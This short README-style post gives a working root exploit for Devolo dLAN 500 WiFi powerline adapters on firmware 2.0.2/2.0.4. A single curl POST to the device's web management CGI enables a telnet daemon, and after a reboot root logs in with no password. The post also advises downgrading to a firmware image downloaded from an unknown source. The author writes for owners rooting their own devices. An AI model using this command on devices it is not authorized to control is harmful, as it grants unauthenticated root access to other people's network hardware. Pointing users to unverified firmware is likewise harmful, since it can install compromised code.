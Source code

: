 This was tested on 2.0.2 and 2.0.4 on a dLAN 500 WiFI. This exploit doesn't work anymore on 3.1.3. I don't know when this was fixed.

There's a report of the same exploit also working for the [Devolo dlan 200 AV Wireless N with v.5 firmware](https://github.com/lawl/devolotools/issues/2).

Fortunately for you, if you're on 3.1.3 you can simply downgrade, as the "update firmware" thingy doesn't check. I found `firmware-dlan-500-wifi-v2-0-2.dvl` in this folder on the intertubes, flashed it and my 1337 root sploit works again. Since I found it on the interwebs however, I can of course not guarantee you that the image is clean.

Here we go:

    curl 'http://IPGOESHERE/cgi-bin/htmlmgr' -H 'Content-Type: application/x-www-form-urlencoded' --data '%3Asys%3ASystem.Baptization.Telnetd=1'

Wait 30 seconds.

Powercycle your devolo. I.e. pull it from the power outlet and replug.

Wait until it boots.

Telnet into your devolo.

Username: root

It will not ask for a password
